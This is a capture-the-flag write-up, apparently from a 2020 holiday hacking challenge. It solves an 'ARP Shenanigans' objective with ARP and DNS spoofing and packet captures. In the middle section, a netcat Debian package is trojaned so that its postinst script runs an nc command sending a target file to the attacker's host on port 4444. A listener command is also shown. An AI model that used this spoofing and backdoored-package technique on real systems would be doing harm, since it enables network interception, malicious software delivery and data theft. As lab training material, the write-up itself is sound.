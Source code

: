 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/arp_resp-py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

```
15:57:16.006467 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`
```
Next a [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/dns_resp.py) was prepared to capture DNS requests to the spoofed host and to send replies redirecting traffic to ftp.osuosl.org to the local host.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```
A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

and then made available in the web tree folder as `pub/jfrost/backdoor/suriv_amd64.deb`.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTc1ODI0MzY3NywxNjM0Mzk0OTQxLDEyMD
Q0MjY1MzksLTE3OTg0MTU4OTYsLTg3ODM5MjIxNiw1MTQyMDkx
NTldfQ==
-->